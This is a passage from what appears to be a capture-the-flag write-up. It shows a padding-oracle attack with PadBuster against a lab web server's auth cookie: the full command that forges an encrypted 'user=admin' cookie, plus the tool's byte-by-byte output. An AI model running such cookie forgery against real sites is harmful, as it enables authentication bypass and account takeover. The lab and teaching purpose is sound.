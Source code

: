 It prints results for each completed block, and then a summary at the end. The data is `user=0xdf`. Knowing what the data is, I can also provide plaintext and it will return a valid encrypted cookie with that plaintext. I’ll add the `-plaintext user=admin` option, and run again:

```

root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0 -plaintext user=admin                      
+-------------------------------------------+                                           
| PadBuster - v0.3.3                        |                                           
| Brian Holyfield - Gotham Digital Science  |                                           
| labs@gdssecurity.com                      |                                           
+-------------------------------------------+                                           

INFO: The original request returned the following                                       
[+] Status: 200                             
[+] Location: N/A                           
[+] Content Length: 978                     

INFO: Starting PadBuster Encrypt Mode       
[+] Number of Blocks: 2                     

INFO: No error string was provided...starting response analysis                         
*** Response Analysis Complete ***          

The following response signatures were returned:                                        
-------------------------------------------------------                                 
ID#     Freq    Status  Length  Location                                                
-------------------------------------------------------                                 
1       1       200     1133    N/A         
2 **    255     200     15      N/A         
-------------------------------------------------------                                 

Enter an ID that matches the error condition                                            
NOTE: The ID# marked with ** is recommended : 2                                         

Continuing test with selection 2            

[+] Success: (196/256) [Byte 8]             
[+] Success: (148/256) [Byte 7]             
[+] Success: (92/256) [Byte 6]              
[+] Success: (41/256) [Byte 5]              
[+] Success: (218/256) [Byte 4]             
[+] Success: (136/256) [Byte 3]             
[+] Success: (150/256) [Byte 2]             
[+] Success: (190/256) [Byte 1]             

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b                                             
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d                                          

[+] Success: (1/256) [Byte 8]               
[+] Success: (36/256) [Byte 7]              
[+] Success: (180/256) [Byte 6]             
[+] Success: (17/256) [Byte 5]              
[+] Success: (146/256) [Byte 4]             
[+] Success: (50/256) [Byte 3]              
[+] Success: (132/256) [Byte 2]             
[+] Success: (135/256) [Byte 1]             

Block 1 Results:                            
[+] New Cipher Text (HEX): 0408ad19d62eba93                                             
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe                                          
-------------------------------------------------------                                 
```